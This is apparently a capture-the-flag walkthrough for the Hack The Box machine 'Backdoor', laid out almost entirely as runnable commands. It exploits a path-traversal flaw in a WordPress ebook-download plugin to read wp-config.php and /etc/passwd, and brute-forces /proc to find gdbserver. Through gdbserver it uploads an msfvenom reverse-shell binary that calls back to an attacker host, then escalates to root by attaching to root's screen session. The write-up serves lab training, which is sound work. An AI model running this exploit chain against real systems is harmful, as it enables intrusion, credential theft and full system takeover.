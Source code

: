 # 🛠️ HTB: Backdoor 

## 📌 Box Info
- **IP**: `10.10.11.125`
- **Name**: `Backdoor`
- **OS**: Linux
- **Difficulty**: Easy
- **Author**: hkabubaker17

---

## 🔍 Recon

### Nmap Scans
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.125
nmap -p 22,80,1337 -sCV -oA scans/nmap-tcpscripts 10.10.11.125
```

### Manual Checks
```bash
nc -v 10.10.11.125 1337
curl 10.10.11.125:1337
```

---

## 🌐 [Website & WordPress Recon](HTTP)

### /etc/hosts Update
```bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### WPScan
```bash
wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API
wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API
```

### Feroxbuster (Plugin Discovery)
```bash
feroxbuster -u http://backdoor.htb/wp-content/plugins -w plugins.txt
```

---

## 🧪 Shell as User

### Ebook Download Plugin Exploit
```bash
# Check plugin version
curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

# Exploit LFI to read wp-config
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

# Read /etc/passwd
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

### Process Enumeration via /proc
```bash
curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
```

### Bash Script to Find gdbserver
```bash
#!/bin/bash
for i in $(seq 1 50000); do
    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi
done
```

---

## 🧨 Exploit gdbserver (User Shell)

### Create Reverse Shell Payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
```

### GDB Remote Exploit
```bash
gdb -q rev.elf
(gdb) target extended-remote 10.10.11.125:1337
(gdb) remote put rev.elf /dev/shm/rev
(gdb) set remote exec-file /dev/shm/rev
(gdb) run
```

### Catch the Shell
```bash
nc -lnvp 443
```

### Upgrade the Shell
```bash
script /dev/null -c bash
# then Ctrl+Z
stty raw -echo; fg
# then type
reset
# when prompted:
screen
```

---

## 💣 Metasploit Method (Alternative)

```bash
msfconsole
use exploit/multi/gdb/gdb_server_exec
set RHOSTS 10.10.11.125
set RPORT 1337
set LHOST tun0
run
```

---

## ⚡ Shell as Root

### Spot screen Process
```bash
ps auxww | grep screen
```

### Connect to Root's Screen Session
```bash
screen -ls root/
TERM=screen screen -x root/[session_id]
# OR
TERM=screen screen -x root/root
```

---

## 🏁 Flags
```bash
cat /home/user/user.txt
cat /root/root.txt
```